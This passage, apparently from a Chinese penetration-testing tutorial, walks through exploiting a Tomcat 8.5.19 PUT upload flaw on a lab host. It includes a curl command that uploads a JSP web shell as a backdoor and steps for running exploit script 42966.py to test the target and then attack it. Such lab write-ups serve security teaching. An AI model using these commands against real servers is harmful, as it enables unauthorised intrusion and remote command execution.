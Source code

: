 ![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouic72BAcaz731uT94XVXBPibxrJ5b1roYuUOQ7ETlXibdT3uAhZKemGh8xMicVSp8wYd47zib6RFYWUTTw/640?wx_fmt=png)

（注意：红框里的文件名处，必须为`/shell.jsp/`的格式，最后的`/`一定要带着）

上传成功，然后访问该文件的 url：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouic72BAcaz731uT94XVXBPibxvtZ27PfAI9qYTxHmW8Ox1lZVIrEGrouLicwp2Nq9OgicgddtWQ0iaWiblg/640?wx_fmt=png)image-20200726200036021

得到一个输入框，开输入框可以用来执行命令，相当于我们上传了一个后门。

我们也可以用`curl`来上传，即在攻击者执行：

```
# -F "file=@{FILE_NAME}" 指定上传文件 curl -v -X PUT -F "file=@shell.jsp" 192.168.0.105:2002/shell.jsp/
```

当然，我们可以直接在攻击机上用 searchsploit 来查找 Tomcat 的 8.5.19 版本的利用脚本，

```
searchsploit tomcat 8.5.19   // 查找tomcat 8.5.19的利用脚本
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouic72BAcaz731uT94XVXBPibxG3rHm4jm3mS0jJ2ncNXrLgF6a52aXHfu335vm7Csm2QuyicoRib3kkLw/640?wx_fmt=png)image-20200726200940536

找到了利用脚本 42966.py，执行以下命令将利用脚本复制到当前的工作目录（-m 参数）：

```
searchsploit -m /exploit/jsp/webapps/42966.py
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouic72BAcaz731uT94XVXBPibxbB9x0Mv7qiaPiaOicqotLbp1zmnssYoNpl9OVaica5RJYsQ3P0tGO7YHKg/640?wx_fmt=png)image-20200726200228537

利用该脚本：

```
python 42966.py
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouic72BAcaz731uT94XVXBPibxEjfhXjhgSTe5fJPCMdmmdicdoE0gS02j8qjkBxCOPanDOa5ibfqYiawug/640?wx_fmt=png)image-20200726212513148

可以看到帮助页面，如上图。

然后，检查目标机是否存在漏洞：

```
python 42966.py -u http://192.168.0.105:2002/
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouic72BAcaz731uT94XVXBPibxM8JzR5ia7BEC0ZOibc7bHLdhHnL6sgia0KqJfeaaGAuYSTxzmr2x7JuKA/640?wx_fmt=png)image-20200726201513820

可知目标存在漏洞并成功上传了一个测试的文件 Poc.jsp：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouic72BAcaz731uT94XVXBPibxM1NWicyBsnXYdoicOrwjTyhAgHMniaBdBMkHo1dESKPI2lT3h2QUicWcQA/640?wx_fmt=png)image-20200726201604441

进行正式攻击：

```
python 42966.py -u http://192.168.0.105:2002/ -p pwn
```
